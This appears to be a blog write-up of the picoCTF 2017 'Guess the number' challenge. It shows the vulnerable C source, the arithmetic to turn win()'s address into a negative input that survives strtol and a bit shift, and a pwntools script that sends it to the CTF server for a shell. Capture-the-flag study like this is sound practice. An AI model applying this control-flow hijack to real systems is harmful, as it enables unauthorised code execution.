 Title: PicoCTF 2017 Lvl2 Guess the number
Date: 2018-7-28 10:02
Modified: 2018-7-28 10:02
Category: ctf
Tags: ctf, pwnable, binary exploitation
Slug: picoCTF_lvl2GuessTheNumber
Authors: F3real
Summary: How to solve picoCTF Lvl2 Guess the number

Lets look at another of challenges from picoCTF:

>    Just a simple number-guessing game. How hard could it be? [Binary](https://webshell2017.picoctf.com/static/69834a84e2bf2d2953093f5d24d12fa0/guess_num) [Source](https://webshell2017.picoctf.com/static/69834a84e2bf2d2953093f5d24d12fa0/guess_num.c). Connect on shell2017.picoctf.com:44930.

We are given following source code:

~~~c
/* How well do you know your numbers? */

#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>

void win(void) {
    printf("Congratulations! Have a shell:\n");
    system("/bin/sh -i");
}

int main(int argc, char **argv) {
    uintptr_t val;
    char buf[32] = "";

    /* Turn off buffering so we can see output right away */
    setbuf(stdout, NULL);

    printf("Welcome to the number guessing game!\n");
    printf("I'm thinking of a number. Can you guess it?\n");
    printf("Guess right and you get a shell!\n");

    printf("Enter your number: ");
    scanf("%32s", buf);
    val = strtol(buf, NULL, 10);

    printf("You entered %d. Let's see if it was right...\n", val);

    val >>= 4;
    ((void (*)(void))val)();
}
~~~

We see that user input is being stored to `uintptr_t val` after which it is called and that we have `win` function giving shell. On first look it looks like we have just to send address of `win` and we get a flag. The problem is that they are using `strtol` to read user input and fact that they shift bits, but first lets find address of `win` function:

    objdump -d guess_num -M intel

![objdump disasembly of win function]({static}/images/2018_7_28_Guess.png){: .img-fluid .centerimage}

`win` function has address of `0x0804852b` but we also need to shift address value 4 bits to left since in code they are doing opposite. Doing so gives us 2152223408, but now we have problem since according to documentation of `strtol`, if the value read is out of the range of representable values by a `long int`, the function returns **LONG_MAX**(2147483647) or **LONG_MIN** (-2147483647). This means we can’t just simply send this value since it’s to big.

To solve this, we have to use negative numbers:
~~~text
    >>>x = 0x0804852b            #address of win function
    >>>bin(x)
    '0b1000000001001000010100101011'   
    >>>x = x << 4                #shift by 4 since they also shift
    >>>x
    2152223408   
    >>>bin(x)
    '0b10000000010010000101001010110000'   
    >>>x = x - (1 << 32)         #get 2nd compliment of number
    >>>x
    -2142743888                  #SOLUTION :D other steps are just to            
                                              explain what happens later

    >>>bin(x)
    '-0b1111111101101111010110101010000'

                                 #Their program will do these steps
    >>>x = x + 4294967295 + 1    
                                 #Since we have negative value which is 
                                 #assigned to unsigned variable it will   
                                 #be converted to unsigned by adding 
                                 #ULONG_MAX + 1
    >>>x
    2152223408
    >>>x = x >> 4                #program shifts our input by 4 bits
    >>>x
    134513963
    >>>bin(x)
    '0b1000000001001000010100101011'  
    >>hex(x)
    0x804852b                    #address of win function
~~~
To automate this we can write short script using **pwntools **and python:

~~~python
context.arch = 'i386'
context.terminal = 'tmux'

r = remote('shell2017.picoctf.com', 44930)
print r.recvuntil('Enter your number:')
payload = 0x0804852b
payload = payload << 4
payload = payload - (1 << (len(bin(payload))-2))

r.send(str(payload)+'\n')
r.interactive()
~~~

Running our script gives us the flag.

![objdump disasembly of win function]({static}/images/2018_7_28_Guess2.png){: .img-fluid .centerimage}
